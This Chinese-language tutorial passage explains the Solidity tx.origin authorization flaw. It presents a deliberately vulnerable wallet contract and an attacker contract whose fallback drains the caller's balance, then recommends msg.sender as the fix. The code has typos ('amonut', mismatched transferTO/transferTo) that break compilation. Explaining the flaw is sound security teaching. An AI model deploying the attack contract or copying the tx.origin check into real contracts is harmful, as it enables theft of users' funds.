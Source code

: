 经典了。

---

## 通过tx.origin授权（Authorization Through tx.origin）

 tx.origin(原始交易发起者的外部地址)是一个[全局变量](https://so.csdn.net/so/search?q=全局变量&spm=1001.2101.3001.7020)，它返回发送交易的地址。重要的是千万不要使用tx.origin,因为另一个合约会使用fallback函数来调用你的合约并获得授权，授权地址存储在tx.origin中。

---

通过fallback：

Victim -> Attacker.fallback -> VulnContract.Withdraw

此时 对于 VulnContract.Withdraw来说，msg.sender是Attacker，而 tx.orgin是Victim！

---

 考虑以下案例，首先你部署了一个TxUserWallet合约：

```solidity
// This contract contains a bug - do not use
contract TxUserWallet {
    address owner;
 
    constructor() public {
        owner = msg.sender;
    }
 
    function transferTO(address payable dest, uint amount) public {
        require(tx.origin == owner);
        dest.transfer(amonut);
    }
}
```

 上述我们可以看出TxUserWallet通过tx.origin授权了[transferTO](https://so.csdn.net/so/search?q=transferTO&spm=1001.2101.3001.7020)()。

 然后是攻击合约TxAttackWallet：

```solidity
interface TxUserWallet {
    function transferTo(address payable dest, uint amount) external;
}
 
contract TxAttackWallet {
    address payable owner;
 
    constructor() public {
        owner = msg.sender;
    }
 
    function() external {
        TxUserWallet(msg.sender).transferTo(owner, msg.sender.balance);
    }
}
```

 如果有人现在欺骗你向TxAttackWallet合约地址发送[ETH](https://so.csdn.net/so/search?q=ETH&spm=1001.2101.3001.7020)，攻击者可以检查tx.origin找到发送交易的地址来窃取你的资金。

 所以为了防止这种攻击的发生，一般使用msg.sender。